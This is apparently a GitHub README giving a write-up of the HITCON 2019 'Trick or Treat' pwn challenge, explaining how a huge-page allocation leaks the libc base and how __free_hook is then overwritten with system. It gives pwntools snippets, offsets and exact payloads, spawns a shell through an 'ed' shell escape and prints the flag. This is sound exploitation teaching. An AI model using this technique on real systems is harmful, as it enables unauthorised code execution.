

# CTFhitcon2019

## Instructions

Run `python treat.py` to run the local version. Run `python trick.py` for the remote version.

## Summary
We overwrite __free_hook__ with __system__. Then invoke __free__, which is now __system__, and pass in the argument "ed" to open the ed editor which allows us to get shell via !'/bin/sh'

## In depth write up

The disassembly of the file is as follows:



When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0
```

The program starts by asking for an input size to send to var7 = malloc(size). From now on I will refer to var7 as *mValue*
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55a29a156260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output
Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0
Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt `Offset & Value:`
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example `mValue[offset] = value`
The program asks for Offset & Value twice.
The first Offset and Value we send is `(libc_offset+free_hook)/8` for the offset and `(libcBase+system)` for the value.
For the Offset, we add together __libc_offset__ and __free_hook__ and then divide the sum by 8. We do this because we are already starting at __Magic__ so we need to add __libc_offset__ to get to the __libcBase__. Then we add the offset of __free_hook__ so that we are pinpointing to the address of __free_hook__. We divide by 8 because *mValue* is a QUADWORD. This means that every *mValue* is equivalent to 8 bytes (64 bits). The Value is __libcBase__ plus the offset of __system__. This points towards the __system__ call. The payload is as follows `payload = "%x %x" % ((libc_offset+free_hook)/8,(libcBase+system))`
After sending this payload, we have succesfully overwritten the __free_hook__ call with the __system__ call.
For our second call we need to call __free__ in order to invoke our newly placed __system__ call. We can achieve this by sending 1024 of an arbitrary character as the offset to invoke __free__. When __free__ is invoked the argument passed to it is the value that was supposed to be set at the offset of *mValue*. For example
```
mValue[1024] = value
                 v
          free(value)
```
With our altered code it now looks like this
```
mValue[1024] = value
                 v
        system(value)
```
So, we can send a value to system as an argument. However, this value can only consist of valid hex values such as 0123456789abcdef. By running the script hexcommands.py we get the output:
```
ed
dd
df
c99
cc
c89
bc
dc
```
The command of interest is the __ed__ command. This launches the [ed](https://linux.die.net/man/1/ed) text editor.
So, for our second Offset & Value input we use `payload = ('1'*1024+' '+'ed')`
Now that we are in the ed editor all we need to do is send the command `!'/bin/sh'`.
After that, we can CAT out the flag by doing `CAT /home/trick_or_treat/flag`
This gives us the flag `hitcon{T1is_i5_th3_c4ndy_for_yoU}`
